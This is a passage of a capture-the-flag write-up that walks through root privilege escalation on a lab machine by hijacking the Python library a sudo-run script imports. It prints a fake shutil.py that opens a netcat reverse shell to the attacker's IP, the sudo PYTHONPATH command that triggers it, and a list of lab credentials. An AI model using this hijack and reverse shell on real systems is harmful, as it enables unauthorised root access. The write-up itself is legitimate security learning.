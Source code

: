 There is also a few backup that have been created. If we do the command `find \ | grep .bak | grep .bak` the we can find another password backup that has been created. Unfortunately we are not allowed to access this file again. I tried catting out the `.bash_history` of the users, but it looks like they are all being piped to `/dev/null`.

Now I downloaded the post exploit script linenum to the server and ran it to see if anything will stand out. I got lenenum from the repo [here](https://raw.githubusercontent.com/Open-Sec/LinEnum/master/LinEnum.sh). Okay... so I don't really know what I am reading, but nothing really stands out to me. However after doing `sudo -l` again I realized that I could run the `admin_tasks.sh` as root. So I can create the `passwd.bak` file. However I still cannot read it. Let's see if we can alter the code in the shell script. I am silly. My target is not `passwd.bak` because I can already read it at `/etc/passwd`.

Right now my idea is to some how abuse the fact that when we do `sudo -l` that we have something to do with `SETENV`. I am thinking that we can preserve the `EUID` that the shell script is executed as. Because we know that we can execute `admin_tasks.sh` as root. So there has got to be a way that we can maintain the `EUID` from this process, essentially making us the `root` user. There is also a call to the file `backup.py` in our shell script that we have permission to run. Maybe this could be an attack vector as well, because technically the `backup.py` gets run as root as well. Let's do some research. I found [this](https://medium.com/@klockw3rk/privilege-escalation-hijacking-python-library-2a0e92a45ca7) article. It has to do with being able too write to the file that the python module is importing. Let's see if we can locate this `shutil.py` file. Well it looks like we do not have permission to edit the `shutil.py` file. But what if we can create our own and make the python file being ran to look there. Let's try this in `waldo`'s home directory. I would say do it in `/tmp`, but the machine deletes `/tmp` frequently so it would be a pain to work in. Okay so let's create a file called `shutil.py`. In there we need the same method signature that is in the real `shutil.py` file for the `make_archive` method. In this method we don't need any of the arguments, we just need the method to be called. So I want to spawn a reverse shell. Here is what I have.

```
import os
def make_archive(a, b, c):
  os.system("nc 10.10.14.29 1234 -e'/bin/sh'")
```

Now from here I thought we could just run the script from this directory, but that is not the case. Turns out that this file needs to be in the python `sys.path` I tried adding it to the `sys.path` using some choppy code, but it did not work. Then I read about setting the environmental variable `PYTHONPATH` to so I set it to `/home/waldo`. That didn't work either. But after a hint, it turns out that what we need to do is run it all together as SUDO. First set up your listener on your local machine. Here we run the command `nc -lvnp 1234`, then on the server we need to run the following command: `sudo PYTHONPATH=/home/waldo /opt/scripts/admin_tasks.sh` then select 6. If you set up your listener on your local machine then it should work. Type `whoami` on the reverse shell and you are root! Congratulations. Now to cat out the `/root/root.txt` file. Overall this was a very difficult box for me. I probably worked on it for 8+ hours, but I feel like I learned a lot. Onto the next box!

```
Working Credentials:
ftpuser::%n?4Wz}R$tTF7
waldo::&<h5b~yK3F#{PaPB&dA}{H>
```

```
URLS:
|$IP/admin-dir/
||- contacts.txt
||- credentials.txt  
|$IP/utility-scipts/
||- info.php
||- admin_tasks.php
||- phptest.php
||- adminer.php
|$IP/server-status
```
